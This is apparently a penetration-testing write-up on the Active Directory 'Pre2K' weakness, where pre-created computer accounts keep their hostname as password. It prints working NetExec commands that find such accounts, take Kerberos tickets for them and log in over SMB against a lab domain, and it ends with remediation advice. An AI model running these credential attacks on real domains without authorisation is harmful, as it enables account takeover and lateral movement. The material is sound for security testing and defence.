



Practical Pre-Staged ADUC Abuse in AD OUs: Pre2K Attack
Overviews
Pre2K attack: affected by Pre-Windows 2000 compatibility which is a legacy configuration option that has persisted in Active Directory environments since the early days of Windows domain infrastructure.
When an administrator manually pre-creates a computer object inside Active Directory Users and Computers (ADUC) before the physical machine actually joins the domain, the resulting account is assigned a default password that matches the computer's hostname in lowercase.
For instance, a computer object named MS01 would be assigned the password ms01, and EXCH01 would receive exch01.

Risk Evaluation
Computer accounts in Active Directory is not a passive object. It is a legitimate domain principal, capable of authenticating via Kerberos, obtaining TGTs from the KDC, and being used as a foothold for subsequent lateral movement or privilege escalation.
In environments where such accounts accumulate over time due to poor lifecycle management or rushed provisioning workflows, the attack surface becomes considerable.
Practical Adversary
Tools being involve:
- BloodHound
- NetExec
Having conditions were present at the start of this engagement and are representative of a standard internal penetration test scenario with an initial low-privileged domain user credential.
user: pentest
passwd: 5p3cterAssumed we already BloodHound with our credential, let's looking at BloodHound:

Our User have a plot, which turns-out he was under a Groups called Pre-Windows 2000!

And Pre-Windows 2000 Groups having 3 Computers account under it, giving an opportunities to gain potential pre-create Password for ADUC Account.
Now...How to Attack!!
Well, in easy method we can just try it with example of user DC01, meaning the password is dc01 (if no-changes).
For mor easy, we can just elevate NetExec LDAP protocol and specify a modules -M pre2k and NetExec would indicate which one is vuln, and automatically create the TGT key if Kerberos are strongly involved in this DC.
┌──(byt3n33dl3㉿kali)-[~]
└─$ faketime "$(ntpdate -q DC01 | cut -d ' ' -f 1,2)" netexec ldap DC01.megacorp.local -u pentest -p '5p3cter' -k
LDAP DC01.megacorp.local 389 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:megacorp.local)
LDAP DC01.megacorp.local 389 DC01 [+] megacorp.local\pentest:5p3cterTry the -M pre2k
┌──(byt3n33dl3㉿kali)-[~]
└─$ faketime "$(ntpdate -q DC01 | cut -d ' ' -f 1,2)" netexec ldap DC01.megacorp.local -u pentest -p '5p3cter' -k -M pre2k
LDAP DC01.megacorp.local 389 DC01 [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:megacorp.local)
LDAP DC01.megacorp.local 389 DC01 [+] megacorp.local\pentest:5p3cter
PRE2K DC01.megacorp.local 389 DC01 Pre-created computer account: MS01$
PRE2K DC01.megacorp.local 389 DC01 Pre-created computer account: EXCH01$
PRE2K DC01.megacorp.local 389 DC01 [+] Found 2 pre-created computer accounts. Saved to /root/.nxc/modules/pre2k/megacorp.local/precreated_computers.txt
PRE2K DC01.megacorp.local 389 DC01 [+] Successfully obtained TGT for ms01@megacorp.local
PRE2K DC01.megacorp.local 389 DC01 [+] Successfully obtained TGT for exch01@megacorp.local
PRE2K DC01.megacorp.local 389 DC01 [+] Successfully obtained TGT for 2 pre-created computer accounts. Saved to /root/.nxc/modules/pre2k/ccacheSave the key:
┌──(byt3n33dl3㉿kali)-[~]
└─$ for f in /root/.nxc/modules/pre2k/ccache/*.ccache; do klist "$f"; done
Ticket cache: FILE:/root/.nxc/modules/pre2k/ccache/exch01.ccache
Default principal: exch01@MEGACORP.LOCAL
Valid starting Expires Service principal
03/14/2026 09:02:05 03/14/2026 19:02:05 krbtgt/MEGACORP.LOCAL@MEGACORP.LOCAL
renew until 03/15/2026 09:02:04
Ticket cache: FILE:/root/.nxc/modules/pre2k/ccache/ms01.ccache
Default principal: ms01@MEGACORP.LOCAL
Valid starting Expires Service principal
03/14/2026 09:02:04 03/14/2026 19:02:04 krbtgt/MEGACORP.LOCAL@MEGACORP.LOCAL
renew until 03/15/2026 09:02:04Don't forget the Klists, and lastly try manual:
┌──(byt3n33dl3㉿kali)-[~]
└─$ sudo faketime "$(ntpdate -q DC01 | cut -d ' ' -f 1,2)" netexec smb DC01.megacorp.local -u 'MS01$' -p ms01 -k
SMB DC01.megacorp.local 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:megacorp.local) (signing:True) (SMBv1:False)
SMB DC01.megacorp.local 445 DC01 [+] megacorp.local\MS01$:ms01Valid!
Closing Attack Paths
The smallest ASR is to make any pre-created computer account with PwdLastSet=0 that is not actively used should be disabled or deleted immediately. For accounts that are legitimately needed, the password must be rotated before the machine is permitted to rejoin the domain.
Shout Outs
Much Thanks to:
Moreover, Proton me if you have further question and suggestion.
Happy hacking!